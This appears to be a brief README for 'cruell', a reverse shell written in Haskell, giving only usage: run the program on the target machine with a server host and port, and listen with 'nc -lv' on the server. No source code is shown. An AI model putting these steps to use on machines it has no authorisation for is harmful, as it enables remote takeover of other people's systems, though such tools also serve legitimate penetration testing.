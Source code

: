 # cruell
This is a reverse shell written in Haskell. On the target machine (the one you want to control) run ```cruell <server-hostname> <server-port>``` and on the server run ``nc -lv <server-port>```.

